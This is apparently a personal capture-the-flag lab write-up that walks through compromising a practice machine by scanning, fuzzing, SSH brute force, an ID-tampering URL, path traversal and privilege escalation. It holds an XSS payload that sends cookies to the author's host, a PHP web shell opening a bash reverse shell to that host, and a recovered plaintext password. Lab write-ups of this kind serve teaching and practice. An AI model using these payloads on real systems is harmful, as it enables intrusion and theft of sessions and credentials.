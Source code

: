 
# Nmap: 

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.191 -oN nmap.basic`

![[Pasted image 20250519225432.png]]

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.191`

^^ ==This scan returned a ton of CVEs for bother services so I am looking into that== 

![[Pasted image 20250519232120.png]]

==Thoughts==: Looks like http is open, so lets navigate there.

==Might as well scan the server with NUCLEI== <- Gets us nothing.

I did find an email though:
![[Pasted image 20250519230444.png]]

Let's research what we can do with this

# Lets use ffuf!
`ffuf -w /opt/redteam/Assetnote/automated/httparchive_directories_1m_2024_05_28.txt -u http://10.129.95.191/FUZZ`

^^ ==found many directories but most are not accessible==

# Brute force ssh with `admin` username:
`hydra -l admin -P /opt/redteam/SecLists/Passwords/Leaked-Databases/rockyou-75.txt ssh://10.129.95.191 -V -t 4`

^^ This puppy went for 8 hours. I got nothin..


# Found url /cdn-cdi/login:
1. Allows guest login
2. You can abuse the url:
	1. `http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`
![[Pasted image 20250520223318.png]]


# Vulnerable to XSS:

I opened up a python server

`http://10.129.95.191/cdn-cgi/login/admin.php?content=clients&orgId=%3Cscript%3Enew%20Image().src%3D%27http%3A//10.10.16.54/cookie%3Fc%3D%27%2Bdocument.cookie;%3C/script%3E`

# Edit the cookie:

![[Pasted image 20250520230417.png]]

I changed the id to 34332 and the user to admin to get access to the uploads page.

==The user john (user 4) is also present==
![[Pasted image 20250521223123.png]]


==Super admin==
![[Pasted image 20250521223643.png]]


# Upload php shell to folder and access it via /uploads:

==Contents of shell==: 
`<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.54/4444 0>&1'");
?>`

## Once connected to the reverse shell find Robert user for user.flag


## Look for SUID files:
`find / -perm -4000 -type f 2>/dev/null`

# Search for files That the Robert user has access to:


## Found user credentials in file:
![[Pasted image 20250522233936.png]]

Password: M3g4C0rpUs3r!

# What is bugtracker?
![[Pasted image 20250522232917.png]]

When you run this program and give it a "`*`" it crashes revealing sensitive information. 

![[Pasted image 20250522235644.png]]
==Bugtracker is running cat insecurely as root, meaning we can give bugtracker `../root.txt` to get the root flag.==

